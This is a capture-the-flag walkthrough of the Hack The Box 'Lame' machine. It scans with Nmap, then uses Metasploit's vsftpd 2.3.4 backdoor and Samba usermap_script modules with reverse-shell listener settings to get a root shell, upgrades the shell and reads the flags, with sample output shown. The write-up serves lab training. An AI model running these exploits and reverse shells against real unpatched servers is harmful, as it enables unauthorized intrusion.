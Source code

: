 ## Lame Machine Exploitation

### 1. Finding the Machine
Navigate to **Machines** > **Search Lame Machine** > **Spawn the machine** to obtain the **IP Address** (e.g., `10.10.10.3`).

---

### 2. Running Nmap
```bash
sudo nmap -vvv -Pn -sCV -p0-65535 --reason -oN lame.nmap 10.10.10.3
```

---

### 3. Enumerating FTP (vsFTPD 2.3.4)
```bash
searchsploit vsFTPD 2.3.4
```

#### **Set Up a Listener in Metasploit**
```bash
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST <your_ip>
set LPORT <your_port>
exploit
```

#### **Exploit vsFTPD 2.3.4**
```bash
msfconsole
search vsftpd 2.3.4
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <target_ip>
exploit
```

_If no session is created, move to the next port._

---

### 4. Exploiting Samba 3.0.20
```bash
msfconsole
search Samba 3.0.20
use exploit/multi/samba/usermap_script
set RHOST 10.10.10.3
set RPORT 445
set LHOST 10.10.14.7
set LPORT 4444
exploit
```

#### **Upgrade the Shell**
```bash
which python
python -c 'import pty; pty.spawn("/bin/bash")'
```

#### **Retrieve Flags**
```bash
find / -iname user.txt -exec wc {} \;
find / -iname root.txt -exec wc {} \;
```

---

## Proof of Concept (PoC) for Lame Machine

### **Nmap Scan Output:**
```
PORT    STATE SERVICE
21/tcp  open  ftp
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

### **vsFTPD 2.3.4 Exploit Attempt:**
```
[*] Started reverse TCP handler on 10.10.14.7:4444
[-] Exploit failed: No session was created.
```

### **Successful Samba Exploitation:**
```
[*] Command shell session opened - user: root
# whoami
root
# cat /root/root.txt
<flag_here>
```

---

## Summary
✅ **Windows Legacy & Lame Machines Exploited**
✅ **Nmap identified open ports & vulnerabilities**
✅ **Metasploit used for SMB & FTP exploitation**
✅ **Successful shell access & flag retrieval**

### 🚀 Exploitation complete!
